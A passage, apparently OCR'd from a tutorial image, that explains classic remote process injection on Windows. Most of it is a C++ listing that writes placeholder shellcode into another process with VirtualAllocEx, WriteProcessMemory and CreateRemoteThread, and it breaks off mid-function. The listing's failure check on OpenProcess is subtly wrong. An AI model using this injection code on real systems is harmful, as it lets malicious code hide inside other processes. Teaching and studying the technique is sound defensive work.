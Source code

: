 ## Classic remote injection

The same style of injection can be used on other processes as well.  An additional step is required where we must obtain a handle to the target process by its process ID (PID).
```c++
#include <Windows.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "...";

    // convert the provided argument to an integer
    auto pid = atoi(argv[1]);

    // get handle to process
    auto hProcess = OpenProcess(
        PROCESS_ALL_ACCESS, // desired access level
        FALSE,
        pid                 // target process ID
    );

    // sanity check the handle is valid
    if (hProcess == INVALID_HANDLE_VALUE) {
        return 0;
    }

    // allocate a region of memory
    auto hMemory = VirtualAllocEx(
        hProcess,   // handle to target process
        NULL,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    
    // write the shellcode into memory
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        hProcess,
        hMemory,
        &shellcode,
        sizeof(shellcode),
        &bytesWritten
    );

    // create a new thread
    DWORD threadId = 0;
    auto hThread = CreateRemoteThread(
        hProcess,   // handle to target process
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)hMemory,
        NULL,
        0,
        &threadId
    );

    // wait for the thread to finish
    WaitForSingleObject(
        hThread,
        INFINITE
    );
    
```
